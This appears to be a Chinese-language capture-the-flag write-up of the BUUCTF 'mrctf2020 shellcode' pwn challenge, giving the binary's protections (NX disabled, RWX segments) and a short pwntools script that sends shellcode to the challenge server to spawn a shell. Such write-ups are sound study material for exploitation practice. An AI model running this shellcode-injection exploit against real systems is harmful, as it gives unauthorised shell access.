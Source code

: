 ```yaml
---
author: 
  name: Zephyr
title: mrctf2020 shellcode
date: 2022-4-4 15:06:25
permalink: /pages/2e1547494524d1a5
tags: 
  - buuctf
  - pwn
  - StackOverflow
---
```


# mrctf2020 shellcode

## 前提

### 查看文件保护

```shell
[*] '/root/pwn/buuctf/mrctf2020_shellcode/mrctf2020_shellcode'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      PIE enabled
    RWX:      Has RWX segments
```

## 静态分析

程序流程如下：

![mrctf2020_shellcode_2](https://cdn.jsdelivr.net/gh/Zephyrccc/ImageHostingService/blog/mrctf2020_shellcode_2.png)

## 思路分析

1. 目前信息：
   
   - Full RELRO
   - No canary found
   - NX disabled
   - PIE enabled
   - Has RWX segments
2. 思路：
   - 有可读可写可执行权限，根据上图程序流程，直接写入shellcode即可

## exp

```python
from pwn import *
context.terminal = ['tmux', 'splitw', '-h']
context(os='linux', arch='amd64', log_level='debug')
pwnfile = '/root/pwn/buuctf/mrctf2020_shellcode/mrctf2020_shellcode'
io = remote('node4.buuoj.cn', 27771)
# io = process(pwnfile)
elf = ELF(pwnfile)
shellcode = asm(shellcraft.sh())
io.recv()
io.sendline(shellcode)
io.interactive()
```